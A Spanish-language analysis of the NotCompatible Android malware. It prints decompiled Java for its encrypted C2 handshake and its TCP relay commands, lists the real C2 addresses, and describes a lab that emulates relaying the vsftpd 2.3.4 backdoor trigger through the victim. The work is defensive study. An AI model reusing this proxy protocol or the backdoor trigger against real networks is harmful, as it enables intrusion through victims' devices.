




NotCompatible es una familia de malware para Android capaz de utilizar el dispositivo infectado como intermediario entre su infraestructura de control y otros servicios de red, una capacidad documentada en el [análisis publicado por Lookout](https://web.archive.org/web/20160605032711/https://blog.lookout.com/blog/2014/11/19/notcompatible/). 

El comportamiento permite estudiar **T1604 - Proxy Through Victim**, ya que el C2 ordena al teléfono crear conexiones hacia destinos arbitrarios y transporta datos a través de ellas. El segundo canal reproduce de forma inocua **T1428 - Exploitation of Remote Services**, técnica que [MITRE ATT&CK atribuye a NotCompatible](https://attack.mitre.org/software/S0299/). Aquí MITRE comete un error al no incluir **T1604** como procedimiento, pero la correspondencia se sostiene directamente en la implementación de `CONN`, `SEND` y `RECV` de esta variante.

La muestra utiliza el mismo protocolo binario tanto con el servidor inicial como con los servidores recibidos posteriormente. En este documento se denomina *gateway* al servidor integrado del grupo 0 y C2 operacional al servidor del grupo 1. En resumen, el protocolo de C&C depende de más de una entidad de control. Lookout menciona que esta división del canal C&C tiene como objetivo aplicar mecanismos de balanceo de carga. Un diagrama de la topología de red usada por esta familia de malware es:


### Análisis estático

| Artefacto               | Tipo           | Identificación                                                        | SHA-256                                                            |
| ----------------------- | -------------- | --------------------------------------------------------------------- | ------------------------------------------------------------------ |
| `221029-lh8ctsagh2.bin` | APK de Android | Paquete `com.security.patch`; versión 1.0; API mínima 7 y objetivo 17 | `c3e39aa0accae116946ead64339eac1753faf3e39d6df1d8185aae21f6135f37` |

El archivo tiene la extensión `.bin`, pero su contenido es un APK válido. El manifiesto registra el servicio `com.security.patch.main` y el receptor `com.security.patch.Receiver`, que puede iniciarlo tras `BOOT_COMPLETED` o `USER_PRESENT`. Para facilitar la lectura, los extractos omiten manejo accesorio de excepciones y pueden asignar nombres descriptivos a variables locales; las condiciones y operaciones relevantes se conservan.

La clase `ThreadServer` reúne los tres componentes que condicionan el tráfico: el selector de Java NIO, la conexión de control representada por `link` y la lista de conexiones entre pares. Su constructor no abre ningún socket:

```java
public ThreadServer(Object owner) {
    this.nio = null;
    this.Owner = (main) owner;
    try {
        this.nio = new NIOServer();
        this.socks = new link(this);
        this.p2plist = new P2PConnectionList();
    } catch (IOException ignored) {
    }
}
```

El método `ThreadServer.init()` prepara dos usos diferentes de RSA. El objeto `RSAGlobal` carga desde `res/raw/pub` un módulo público de 1024 bits y fija el exponente 65537; se utiliza exclusivamente para validar las configuraciones `SET` (se comentará más adelante). El objeto `RSALocal` genera una pareja nueva de 1024 bits durante la ejecución y protege la entrega de las claves RC4 empleadas en las sesiones de control.

```java
public void init() {
    this.RSAGlobal = new rsa(this.Owner);
    this.RSAGlobal.LoadKey();

    this.RSALocal = new rsa(this.Owner);
    this.RSALocal.GenKey();

    this.conf = new config(this.Owner);
    this.conf.Load();

    this.hublist = new HubList();
    this.hublist.Tag = "HUBLIST";
    LoadHubList();

    this.udphublist = new HubList();
    this.udphublist.Tag = "UDPHUBLIST";
    LoadUDPHubList();

    this.conman = new ConectionManager(this.conf);
    this.conman.load();

    this.MyPort = this.conf.pac.getByName("PORT").asWord();
    new P2PListen(this).Listen(this.MyPort);

    this.udp = new udpmixer(this);
    try {
        this.udp.Bind(this.MyPort);
    } catch (Exception ignored) {
    }
}
```

La configuración inicial se encuentra dentro del APK, en `res/raw/data`. La clase `config` la descifra mediante RC4 con una clave de veinte octetos nulos y deserializa los paquetes resultantes. El recurso de configuración de tipo "SET" contiene estos valores:

```text
SET
├── DATA
│   ├── GROUP
│   │   ├── ID = 0
│   │   └── SERV
│   │       ├── IP   = 173.242.124.163
│   │       └── PORT = 443
│   └── LID = 1
└── Sign = firma RSA de 128 bytes

LDGROUP = 1000
FB      = presente
GROUP   = 0
```

Cuando todavía no existen en la configuración persistida, la muestra añade un `UUID` aleatorio de 16 bytes y un puerto comprendido entre 2048 y 37047 para los subsistemas P2P TCP y UDP:

```java
if (this.pac.getByName("UUID") == null) {
    byte[] uid = new byte[16];
    for (int i = 0; i < uid.length; i++) {
        uid[i] = (byte) (Math.random() * 256.0d);
    }
    packet uuid = this.pac.add();
    uuid.tag = "UUID";
    uuid.buff.put(uid);
}

if (this.pac.getByName("PORT") == null) {
    int portNumber = (int) (2048.0d + Math.random() * 35000.0d);
    packet port = this.pac.add();
    port.tag = "PORT";
    port.buff.putWord(portNumber);
}
```

El primer extremo remoto está, por tanto, fijado como `173.242.124.163:443`. El número de puerto no implica HTTPS: la muestra abre un socket TCP y no produce un `ClientHello`, registros TLS ni mensajes HTTP. Tampoco basta para aplicar **T1509 - Non-Standard Port**, porque el protocolo de aplicación usado es propietario de la aplicación.

La clase `ConectionManager` transforma cada elemento `GROUP` de la configuración en una lista de servidores. Un servidor puede definirse mediante la pareja `IP` y `PORT` o mediante un objeto `DOM` con `NAME` y `PORT`. La configuración integrada solo contiene una dirección IPv4, de modo que el primer enlace no requiere DNS. Una configuración posterior sí puede introducir nombres que Java resolverá al construir el `InetSocketAddress`.

```text
GROUP
├── ID
├── SERV
│   ├── IP
│   └── PORT
└── DOM
    ├── NAME
    └── PORT
```

El código también abre listeners TCP y UDP para comunicaciones P2P, conserva listas `HUBLIST` y `UDPHUBLIST`, y puede intercambiar configuraciones con otros pares. Estas capacidades existen, pero no aportan nada para las técnicas que se buscan estudiar con esta muestra. 

El bucle principal consulta la conectividad, procesa los eventos del selector y, si no hay una conexión de control activa, intenta conectarse al servidor seleccionado cada diez segundos:

```java
public void run() {
    while (true) {
        try {
            if (getInnet()) {
                this.nio.DispQuery();

                if ((this.socks.lastConnect + 10000 < System.currentTimeMillis())
                        & (this.socks.status == 0)) {
                    this.socks.init();
                    InetSocketAddress server = this.conman.getServer();
                    this.socks.Connect(server);
                }

                CheckHub();
                CheckP2PConnection();
                CheckUDP();
            } else {
                this.isIPDetedted = false;
                this.isOpenPort = false;
                this.isOpenPortTested = 0;
                Thread.sleep(1000L);
            }
        } catch (IOException | InterruptedException ignored) {
        }
    }
}
```

Una vez completada la conexión TCP, el método `link.onConnect()` envía el módulo público de `RSALocal`. El mensaje inicial no utiliza el sistema de paquetes con etiquetas: comienza con la longitud del módulo como entero de 32 bits en *little-endian* y continúa con sus 128 bytes.

```java
public void onConnect(SelectionKey key) throws IOException {
    super.onConnect(key);

    byte[] modulus = this.Owner.RSALocal.pubKey.getModulus().toByteArray();
    if (modulus[0] == 0) {
        byte[] unsignedModulus = new byte[modulus.length - 1];
        System.arraycopy(modulus, 1, unsignedModulus, 0, unsignedModulus.length);
        modulus = unsignedModulus;
    }

    mybuffer message = new mybuffer();
    message.putDword(modulus.length);
    message.put(modulus);
    Send(message.array());
    this.status = 2;
}
```

Esto implica que el primer mensaje de aplicación tendrá normalmente 132 bytes:



El servidor reconstruye la clave pública con el exponente 65537, genera una clave RC4 de 100 bytes y la cifra mediante RSA sin relleno. El texto RSA contiene un octeto inicial que el cliente descarta, seguido de los 100 bytes de RC4. La respuesta repite la misma estructura de longitud y criptograma:



El método `link.onRead()` descifra esa respuesta con la clave privada de `RSALocal`, construye dos objetos RC4 con la misma clave y activa el cifrado del canal. Cada objeto mantiene un estado continuo e independiente para uno de los sentidos; RC4 no se reinicia al comenzar cada paquete.

```java
if (this.status == 2 && this.readBuffer.Size > 4) {
    int encryptedLength = this.readBuffer.asDWord();
    this.readBuffer.shift(4);

    byte[] encryptedKey = new byte[encryptedLength];
    System.arraycopy(
        this.readBuffer.array(), 0,
        encryptedKey, 0,
        encryptedKey.length
    );
    this.readBuffer.shift(encryptedLength);

    byte[] plaintext = this.Owner.RSALocal.decode2(encryptedKey);
    byte[] rc4Key = new byte[100];
    System.arraycopy(plaintext, 1, rc4Key, 0, rc4Key.length);

    this.rc4in = new RC4(rc4Key);
    this.rc4out = new RC4(rc4Key);
    this.isEncrypt = true;
    this.status = 3;

    SendHello();
    this.Owner.conman.ConnectOk();
}
```

A partir de este punto, los mensajes de control se serializan como una sucesión de paquetes binarios. Cada paquete comienza por su tamaño total en *little-endian*. El octeto siguiente reserva el bit más significativo para indicar si existen hijos y emplea los siete bits restantes como longitud de la etiqueta ASCII:



La primera estructura cifrada que envía el dispositivo es `HELO`:

```java
private void SendHello() {
    packet hello = new packet();
    hello.tag = "HELO";

    packet version = hello.add();
    version.tag = "VER";
    version.buff.putDword(2);

    packet uuid = hello.add();
    uuid.tag = "UUID";
    uuid.buff.put(this.Owner.conf.pac.getByName("UUID").array());

    packet port = hello.add();
    port.tag = "PORT";
    port.buff.putWord(this.Owner.conf.pac.getByName("PORT").asPort());

    packet group = hello.add();
    group.tag = "GROUP";
    group.buff.putWord(this.Owner.conf.pac.getByName("GROUP").asWord());

    // LDGROUP, LID y CT se añaden del mismo modo.
    sendEncrypt(hello.pack());
}
```

La estructura lógica resultante es:

```text
HELO
├── VER      = 2
├── UUID     = identificador de 16 bytes
├── PORT     = puerto P2P local
├── GROUP    = grupo de servidores actual
├── LDGROUP  = grupo de distribución
├── LID      = versión de la configuración SET
├── CT       = tipo de red informado por Android
├── FB       = opcional, presente durante el primer arranque
└── OP       = opcional, puerto P2P confirmado como accesible
```

Aunque esta representación facilita la lectura, no viajan líneas de texto ni caracteres de dibujo: los bytes transmitidos corresponden al formato binario anterior y, desde `HELO`, quedan cifrados con RC4.

### Flujo C&C tras distribución de claves y HELO

El método `link.ParseCommand()` extrae paquetes completos del flujo RC4 y decide su tratamiento según la etiqueta principal:

| Comando | Acción |
|---|---|
| `PING` | Responder con `PONG`. |
| `HUBLIST` | Actualizar la lista de pares TCP. |
| `UDPHUBLIST` | Actualizar la lista de pares UDP. |
| `SET` | Verificar y guardar una configuración más reciente. |
| `SETGROUP` | Seleccionar otro grupo, guardar el cambio y reconectar. |
| `SETV` | Cambiar el índice de servidor y reconectar. |
| `CONN` | Abrir un canal TCP hacia un destino. |
| `SEND` | Enviar bytes por un canal abierto. |
| `SHUT` | Cerrar un canal. |

El gateway del flujo seleccionado responde al primer `HELO` con una configuración `SET`. La función `RecvSET()` solo la acepta cuando contiene `DATA`, `Sign` y `LID`, la versión es superior a la instalada y la firma supera la comprobación con `RSAGlobal`:

```java
private void RecvSET(packet p) {
    packet p2;
    packet p3;
    packet p1 = p.getByName("DATA");
    if (p1 != null
            && (p2 = p.getByName("Sign")) != null
            && (p3 = p1.getByName("LID")) != null
            && this.Owner.conf.pac.getByName("SET").getByName("DATA")
                .getByName("LID").asInt64() < p3.asInt64()
            && this.Owner.RSAGlobal.check(p1.getDigest(), p2.array())) {
        this.Owner.conf.pac.Delete("SET");
        this.Owner.conf.pac.add(p);
        this.Owner.conf.Save();
        this.Owner.conman.load();
        this.Owner.SendSET();
    }
}
```

`RSAGlobal` no cifra el canal. La comprobación calcula SHA-1 sobre el paquete `DATA`, aplica una operación RSA pública sin un esquema de firma normalizado y compara los veinte octetos finales recuperados. La forma mínima de `SET` es:

```text
SET
├── DATA
│   ├── GROUP ...
│   └── LID
└── Sign
```

Después, `SETGROUP` contiene el identificador de dos bytes del grupo que debe seleccionarse. La muestra guarda el valor, cierra la conexión actual y vuelve al bucle principal. Existe una manera sencilla de cubrir el traspaso Pasarela-Servidor C&C. El gateway anuncia el grupo 1 y el siguiente intento se dirige al C2 operacional incorporado en el `SET`. La nueva conexión repite el intercambio `RSALocal`, negocia una clave RC4 distinta y envía otro `HELO`, ya con `GROUP=1` y sin `FB`.

Como casi todo en este malware, también se hace uso de un protocolo propietario para el relé y por lo tanto no usa SOCKS4/SOCKS5 (la cual suele ser la implementación clásica de un Proxy en malware móvil). En resumen, es un relé TCP de aplicación multiplexado por el campo `CH`. El C2 solicita un nuevo socket mediante `CONN`, que debe incluir un identificador de canal de cuatro bytes, un puerto de dos bytes en orden de red y una dirección IPv4 o un dominio:

```text
CONN
├── CH    = identificador de canal
├── PORT  = puerto remoto
└── IP    = dirección IPv4
```

La variante alternativa sustituye `IP` por `DOM`:

```text
CONN
├── CH
├── PORT
└── DOM   = nombre que resolverá el dispositivo
```

El método `RecvCONN()` rechaza canales duplicados o estructuras incompletas. Cuando los campos son válidos, crea un objeto `ProxyLink` y abre desde el teléfono un nuevo `SocketChannel` hacia el destino solicitado:

```java
private void RecvCONN(packet command) {
    packet channelPacket = command.getByName("CH");
    if (channelPacket == null || channelPacket.buff.Size != 4) {
        SendError(1, 0);
        return;
    }

    int channel = channelPacket.asDWord();
    if (this.proxy_list.GetByChannel(channel) != null) {
        SendError(2, 0);
        return;
    }

    packet portPacket = command.getByName("PORT");
    packet ipPacket = command.getByName("IP");
    packet domainPacket = command.getByName("DOM");

    int port = portPacket.asPort();
    String destination = ipPacket != null
        ? ipPacket.asIP()
        : domainPacket.asString();

    ProxyLink proxy = new ProxyLink(this.Owner);
    proxy.ch = channel;
    proxy.Connect(destination, port);
    this.proxy_list.Add(proxy);
}
```

Si el socket se establece, `ProxyLink.onConnect()` devuelve otro paquete `CONN` con el mismo `CH` y el puerto local asignado al socket de salida. Si la conexión fracasa, devuelve `NOCN`. Por tanto, el `CONN` de respuesta no repite el puerto del servicio remoto:

```text
CONN
├── CH    = mismo identificador
└── PORT  = puerto local del socket creado por la víctima
```

Una vez abierto el canal, `SEND` transporta hacia el destino los bytes incluidos en `DT`. No existe una confirmación específica para cada `SEND`:

```text
SEND
├── CH
└── DT    = bytes que se escribirán en el socket remoto
```

Es decir, la transmisión de esta simple estructura lógica tras generar los dos flujos TCP permitiría a los operadores del malware ejecutar un DDOS (ataque de denegación de servicio distribuido) o aprovechar vulnerabilidades de redes privadas en las que se encuentre la víctima (donde entra la siguiente técnica a estudiar precisamente). Cuando el servicio remoto responde, `ProxyLink.onRead()` encapsula los bytes leídos en `RECV` y los devuelve al C2 por el canal RC4:

```java
public void onRead(SelectionKey key) throws IOException {
    super.onRead(key);

    packet response = new packet();
    response.tag = "RECV";

    packet channel = response.add();
    channel.tag = "CH";
    channel.buff.putDword(this.ch);

    packet data = response.add();
    data.tag = "DT";
    data.buff.put(this.readBuffer.array());
    this.readBuffer.clear();

    this.Owner.socks.sendEncrypt(response.pack());
}
```

```text
RECV
├── CH
└── DT    = bytes recibidos del servicio remoto
```

El C2 puede mantener varios canales simultáneos porque cada uno utiliza un valor `CH` diferente. La orden `SHUT` solicita el cierre de uno de ellos. Debido a la comprobación concreta de `RecvSHUT()`, el paquete debe contener también un hijo `DT`, aunque puede estar vacío y su contenido no se utilice. Tras cerrar el socket, la víctima responde `DISC` con el identificador correspondiente.

Esta cadena demuestra **T1604**: el C2 no establece directamente la conexión con el servicio final; la orden cifrada provoca que el dispositivo abra otro flujo y retransmita en ambos sentidos los datos asociados al canal. La existencia del relé no demuestra por sí sola **T1428**. Esa segunda técnica se materializa cuando los campos `DT` contienen una conversación que explota un servicio remoto. Se seleccionará un ataque documentado para el estudio de esta técnica sobre el protocolo de relé.

### Secuencia comunicativa

El laboratorio emula en Python la pasarela, el C2 operacional, la víctima y el servicio FTP. No ejecuta el APK porque los servidores necesitan firmar `SET` con la clave privada correspondiente a `RSAGlobal`, mientras que la muestra solo incorpora el módulo público. Sin esa clave privada, un `SET` construido por el laboratorio sería rechazado. También se podría modificar la muestra para solucionar el problema de llaves y usar un par controlado. El conocimiento del protocolo usado por el malware es bastante claro, por lo que emularlo todo es una vía completamente válida. Las entidades de red se han configurado tal que así:

| Entidad | Dirección y servicio | Procedencia |
|---|---|---|
| Víctima emulada | `10.29.9.10` | Dirección privada asignada a la víctima dentro de la topología aislada. |
| Gateway inicial | `173.242.124.163:443` | Extremo integrado en la configuración de la muestra y confirmado por el [informe de CERT Orange Polska de 2014](https://cert.orange.pl/wp-content/uploads/2023/05/Raport_CERT_OPL_2014.pdf), que lo identifica como el primer C2. |
| C2 operacional | `5.45.65.100:80` | Uno de los C2 alternativos mostrados en la figura 48 del [informe de CERT Orange Polska de 2014](https://cert.orange.pl/wp-content/uploads/2023/05/Raport_CERT_OPL_2014.pdf). |
| Objetivo FTP | `10.29.9.20:21` y `10.29.9.20:6200` | Host privado controlado dentro de la red de la víctima. Lo elige el escenario para materializar el uso del proxy y no se presenta como infraestructura de NotCompatible. |
El servicio remoto reproduce de forma segura [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523), correspondiente al tarball comprometido de vsftpd 2.3.4 que abría una puerta trasera en TCP/6200. La secuencia se basa en el [módulo publicado por Rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/): se envía un nombre de usuario que contiene `:)`, se completa `PASS` y después se intenta una segunda conexión al puerto 6200. El emulador únicamente responde de forma controlada a `id`.

El gateway conserva TCP/443 y el C2 operacional usa TCP/80, tal como aparece en el flujo  documentado. Ninguno de esos puertos implica TLS: tras el intercambio RSA, ambos canales transportan directamente el flujo binario cifrado con RC4. El objetivo controlado utiliza TCP/21 para FTP y tal como se comentó, TCP/6200 para la puerta trasera simulada.

Siguiendo el protocolo usado por el malware, la pasarela enviará un `SET` firmado con `LID=2` y `SETGROUP=1`. La víctima cierra el primer canal y se conecta al C2 operacional, que distribuye un segundo `SET` con `LID=3`. A continuación, el C2 abre `CH=1` hacia `10.29.9.20:21` y transporta estas primitivas FTP mediante `SEND`:

```text
USER lab:)\r\n
PASS lab\r\n
```

El servidor FTP activa entonces el listener inocuo en TCP/6200. El C2 solicita `CH=2`, envía `id\n` y recibe mediante `RECV` una respuesta que contiene `uid=0(root)`. Finalmente, cierra ambos canales con `SHUT` y recibe los correspondientes paquetes `DISC`.


